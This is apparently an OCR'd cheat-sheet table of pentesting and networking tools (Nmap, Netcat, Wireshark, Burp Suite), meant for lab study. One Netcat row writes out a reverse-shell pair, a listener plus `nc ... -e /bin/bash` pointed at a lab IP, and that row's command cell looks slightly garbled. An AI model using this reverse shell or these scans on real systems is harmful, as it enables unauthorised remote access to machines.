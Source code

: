 | Tool      | Command                                    | Purpose                                                              | Example                                 |
|-----------|--------------------------------------------|----------------------------------------------------------------------|-----------------------------------------|
| Nmap      | `nmap [IP]`                                | Basic scan: checks ≈1000 common TCP ports.                           | `nmap 192.168.56.101`                   |
| Nmap      | `nmap -sV [IP]`                            | Service version detection on open ports.                             | `nmap -sV 192.168.56.101`               |
| Nmap      | `nmap -A [IP]`                             | Aggressive scan: OS detection, version detection, scripts, traceroute.| `nmap -A 192.168.56.101`                |
| Ping      | `ping [IP]`                                | Network connectivity test (sends ICMP packets).                      | `ping 192.168.56.101`                   |
| Netcat    | `nc -lvp [PORT]`                           | Listener: open a TCP port, verbose, keep listening.                  | `nc -lvp 4444`                          |
| Netcat    | `nc [IP] [PORT]`                           | Connect to a remote port (simple client).                            | `nc 192.168.56.102 4444`                |
| Netcat    | `nc -v -z [IP] [PORT-RANGE]`               | Port scan (TCP connect checks, without sending data).                | `nc -v -z 192.168.56.102 1-1000`        |
| Netcat    | `tput: Reverse shell (lab use ONLY)`       | Create an interactive shell back to attacker — **lab-only**.         | Attacker: `nc -lvp 4444` <br> Target: `nc 192.168.56.101 4444 -e /bin/bash` |
| Wireshark | `wireshark` (GUI)                          | Start GUI packet capture and analysis.                               | Open Wireshark → choose interface → Start Capture |
| Wireshark | `tshark -i [iface] -w file.pcap -c [n]`    | CLI capture to file (`tshark` is Wireshark CLI).                     | `tshark -i eth0 -w capture.pcap -c 100` |
| Burp Suite| Start Burp (GUI) + set browser proxy `127.0.0.1:8080` | Intercept and modify HTTP(S) traffic via local proxy.                | Open Burp → Proxy → Options → set listener 127.0.0.1:8080; set browser proxy |
